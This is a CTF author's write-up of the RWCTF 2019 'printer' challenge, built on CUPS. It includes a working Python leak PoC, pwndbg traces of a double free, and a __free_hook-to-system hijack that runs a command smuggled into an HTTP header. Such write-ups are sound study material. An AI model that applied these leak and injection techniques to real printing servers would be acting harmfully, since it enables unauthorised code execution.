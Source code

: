 
I made a challenge named [printer](https://github.com/bash-c/rwctf2019-final-printer/blob/master/description.md) with [@swing](https://twitter.com/bestswngs) for RWCTF 2019 Final. Congratulations to [@ALLES!](https://twitter.com/allesctf) and [@PPP](https://twitter.com/PlaidCTF) who solved it during the game.

> Thanks to [@YmCode](https://twitter.com/DuoDuo20989667) and [@leommxj](https://twitter.com/leommxj) who contribute to this challenge

In brief, `printer` is designed upon [cups](https://www.cups.org/), which implements a printing system based on IPP (Internet Printing Protocol). And this challenge could be solved by a memory disclosure issue (rdar://51373853, fixed in [2c030c7a](https://github.com/apple/cups/commit/2c030c7a06e0c2b8227c7e85f5c58dfb339731d0#diff-969d2ab030004bf3ccdd214161658a15)) and a use-after-free vulnerability introduced by my patch.

The leak procedure is quite simple. Here is a sample POC
```python
u64 = lambda x: struct.unpack('<Q', x.encode('latin'))[0]

# leak
leak_header = {"Cookie": 'a' * 20000}
leak = requests.get(url, headers = leak_header)
leaked = leak.headers["Set-cookie"][16372: ]
#  import pdb; pdb.set_trace()

canary = u64(leaked[0x0: 0x08])
print("canary @ {:#x}".format(canary))
heap = u64(leaked[0x8: 0x10]) - 0xc98
print("heap @ {:#x}".format(heap))
libcups = u64(leaked[0x10: 0x18]) - 0x1d6d7
print("libcups @ {:#x}".format(libcups))
stack = u64(leaked[0x38: 0x40])
print("stack @ {:#x}".format(stack))
elf = u64(leaked[0x48: 0x50]) - 0x1d52b
print("elf @ {:#x}".format(elf))
libc = u64(leaked[0x2b0: 0x2b8]) - 0x132169
print("libc @ {:#x}".format(libc)
```

`ALLES!` just totally ignored this issue and got leaked using the UAF vulnerability. Well guys, you dig more code than I do!

And there is a powerful malloc primitive in `cups/ipp.c`
```C
  3594                  if (n > 0)
  3595                  {
  3596                    if ((value->unknown.data = malloc((size_t)n)) == NULL)
  3597                    {
  3598                      _cupsSetHTTPError(HTTP_STATUS_ERROR);
  3599                      DEBUG_puts("1ippReadIO: Unable to allocate value");
  3600                      _cupsBufferRelease((char *)buffer);
  3601                      return (IPP_STATE_ERROR);
  3602                    }
  3603
  3604                    if ((*cb)(src, value->unknown.data, (size_t)n) < n)
  3605                    {
  3606                      DEBUG_puts("1ippReadIO: Unable to read unsupported value.");
  3607                      _cupsBufferRelease((char *)buffer);
  3608                      return (IPP_STATE_ERROR);
  3609                    }
  3610                  }
```

Due to my patch, we can achieve double-free.

First free
```C
pwndbg> bt
#0  ipp_free_values (attr=attr@entry=0x55a7d64869b0, element=element@entry=0, count=1) at ipp.c:6329
#1  0x00007f47eee1fcd4 in ippSetValueTag (ipp=<optimized out>, attr=0x7ffe9a6c9550, value_tag=IPP_TAG_NOVALUE) at ipp.c:4528                <== trigger free
#2  0x00007f47eee2012c in ippReadIO (src=0x55a7d655a010, cb=cb@entry=0x7f47eee1d741 <ipp_read_http>, blocking=0, parent=parent@entry=0x0, ipp=0x55a7d6486960) at ipp.c:3138
#3  0x00007f47eee207e7 in ippRead (http=<optimized out>, ipp=<optimized out>) at ipp.c:2831
#4  0x000055a7d587b135 in cupsdReadClient (con=0x55a7d6558e60) at client.c:1621
#5  0x000055a7d5899d3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#6  0x000055a7d587493a in main (argc=argc@entry=4, argv=argv@entry=0x7ffe9a6d6d28) at main.c:845
#7  0x00007f47eea1eb97 in __libc_start_main (main=0x55a7d587377f <main>, argc=4, argv=0x7ffe9a6d6d28, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe9a6d6d18) at ../csu/libc-start.c:310
#8  0x000055a7d5874eca in _start ()
pwndbg> 
```

Double free
```C
#0  ipp_free_values (attr=attr@entry=0x55a7d64869b0, element=element@entry=0, count=1) at ipp.c:6329
#1  0x00007f47eee1eaa6 in ippDelete (ipp=0x55a7d6486960) at ipp.c:1755
#2  0x000055a7d5879066 in cupsdCloseClient (con=con@entry=0x55a7d6558e60) at client.c:498               <== trigger free
#3  0x000055a7d587b618 in cupsdReadClient (con=0x55a7d6558e60) at client.c:1835
#4  0x000055a7d5899d3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#5  0x000055a7d587493a in main (argc=argc@entry=4, argv=argv@entry=0x7ffe9a6d6d28) at main.c:845
#6  0x00007f47eea1eb97 in __libc_start_main (main=0x55a7d587377f <main>, argc=4, argv=0x7ffe9a6d6d28, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe9a6d6d18) at ../csu/libc-start.c:310
#7  0x000055a7d5874eca in _start ()
```

Combining steps above, we can hijack `__free_hook` to `system` using tcache dup. Luckily, the first object to free is request header which can be fully controlled by attackers. 
```C
pwndbg> c
Continuing.

Breakpoint 1, __libc_system (line=0x5559f19aa1b0 "deflate, gzip, identity; touch /tmp/test ;") at ../sysdeps/posix/system.c:180
180	../sysdeps/posix/system.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 RAX  0x7fa177b52440 (system) ◂— test   rdi, rdi
 RBX  0x5559f1a63080 ◂— 9 /* '\t' */
 RCX  0x0
 RDX  0x0
 RDI  0x5559f19aa1b0 ◂— 'deflate, gzip, identity; touch /tmp/test ;'
 RSI  0x7fa177f1e40a (httpClearFields+61) ◂— mov    qword ptr [rbx + r12 + 0x3390], 0
 R8   0x7ffc389c1e48 ◂— 0x6161616161616100
 R9   0x1
 R10  0xffffffff
 R11  0x246
 R12  0x5559f19aa1b0 ◂— 'deflate, gzip, identity; touch /tmp/test ;'
 R13  0x0
 R14  0x1
 R15  0x5559f034c52b (cupsdReadClient+1009) ◂— mov    esi, 0x64
 RBP  0x5559f1a64cb8 ◂— 0x0
 RSP  0x7ffc389c1d98 —▸ 0x7fa177b9ac27 (free+727) ◂— jmp    0x7fa177b9aaa0
 RIP  0x7fa177b52440 (system) ◂— test   rdi, rdi
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
 ► 0x7fa177b52440 <system>          test   rdi, rdi
   0x7fa177b52443 <system+3>        je     system+16 <0x7fa177b52450>
 
   0x7fa177b52445 <system+5>        jmp    do_system <0x7fa177b51eb0>
    ↓
   0x7fa177b51eb0 <do_system>       push   r12
   0x7fa177b51eb2 <do_system+2>     push   rbp
   0x7fa177b51eb3 <do_system+3>     mov    r12, rdi
   0x7fa177b51eb6 <do_system+6>     push   rbx
   0x7fa177b51eb7 <do_system+7>     mov    ecx, 0x10
   0x7fa177b51ebc <do_system+12>    mov    esi, 1
   0x7fa177b51ec1 <do_system+17>    sub    rsp, 0x180
   0x7fa177b51ec8 <do_system+24>    lea    rbx, [rsp + 0xe0]
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsp  0x7ffc389c1d98 —▸ 0x7fa177b9ac27 (free+727) ◂— jmp    0x7fa177b9aaa0
01:0008│      0x7ffc389c1da0 —▸ 0x7ffc389c2748 ◂— 0x0
02:0010│      0x7ffc389c1da8 —▸ 0x5559f1a63080 ◂— 9 /* '\t' */
03:0018│      0x7ffc389c1db0 —▸ 0x7ffc389c1de8 ◂— 0xd8
04:0020│      0x7ffc389c1db8 —▸ 0x5559f1a63080 ◂— 9 /* '\t' */
05:0028│      0x7ffc389c1dc0 ◂— 0x15a
06:0030│      0x7ffc389c1dc8 ◂— 0xb4aa529aeef52500
07:0038│      0x7ffc389c1dd0 ◂— 0x0
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0     7fa177b52440 system
   f 1     7fa177b9ac27 free+727
   f 2     7fa177f1e40a httpClearFields+61
   f 3     5559f034b62e cupsdSendError+120
   f 4     5559f034d16b cupsdReadClient+4145
   f 5     5559f036bd3c cupsdDoSelect+186
   f 6     5559f034693a main+4539
   f 7     7fa177b24b97 __libc_start_main+231
─────────────────────────────────────────────────────────────────────────────────────────────────────
Breakpoint *system
pwndbg> bt
#0  __libc_system (line=0x5559f19aa1b0 "deflate, gzip, identity; touch /tmp/test ;") at ../sysdeps/posix/system.c:180
#1  0x00007fa177b9ac27 in __GI___libc_free (mem=0x5559f19aa1b0) at malloc.c:3094
#2  0x00007fa177f1e40a in httpClearFields (http=0x5559f1a63080) at http.c:303
#3  0x00005559f034b62e in cupsdSendError (con=con@entry=0x5559f1a61ed0, code=HTTP_STATUS_BAD_REQUEST, auth_type=0) at client.c:1952
#4  0x00005559f034d16b in cupsdReadClient (con=0x5559f1a61ed0) at client.c:1626
#5  0x00005559f036bd3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#6  0x00005559f034693a in main (argc=argc@entry=4, argv=argv@entry=0x7ffc389d0b18) at main.c:845
#7  0x00007fa177b24b97 in __libc_start_main (main=0x5559f034577f <main>, argc=4, argv=0x7ffc389d0b18, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffc389d0b08) at ../csu/libc-start.c:310
#8  0x00005559f0346eca in _start ()
```

You can read my full exploit [here](https://github.com/bash-c/rwctf2019-final-printer/blob/master/solve.py)

Since printed file is cached in `/var/spool/cups` , we can achieve the first two steps (spawn a calculator and read printed file) now. 

```
                       ^\    ^
                      / \\  / \
                     /.  \\/   \      |\___/|
  *----*           / / |  \\    \  __/  O  O\
  |   /          /  /  |   \\    \_\/  \     \
 / /\/         /   /   |    \\   _\/    '@___@
/  /         /    /    |     \\ _\/       |U
|  |       /     /     |      \\\/        |
\  |     /_     /      |       \\  )   \ _|_
\   \       ~-./_ _    |    .- ; (  \_ _ _,\'
~    ~.           .-~-.|.-*      _        {-,
 \      ~-. _ .-~                 \      /\'
  \                   }            {   .*
   ~.                 '-/        /.-~----.
     ~- _             /        >..----.\\\
         ~ - - - - ^}_ _ _ _ _ _ _.-\\\
```



As for the third step,

> 3. print this message `hacked by {your_team_name}`

I designed this step to bring this challenge more real. Imagine you have hacked into some printer, the first thing to do is to make the victim be unknown, that's to say, to make sure the printer works well and can print things normally.

Since we got a root shell by pwnning the binary `cupsd`, print-related command like `echo "hacked by RWCTF" | /usr/bin/lpr` will be hung to our shell.  Simply restart the `cupsd` binary could solve our problem.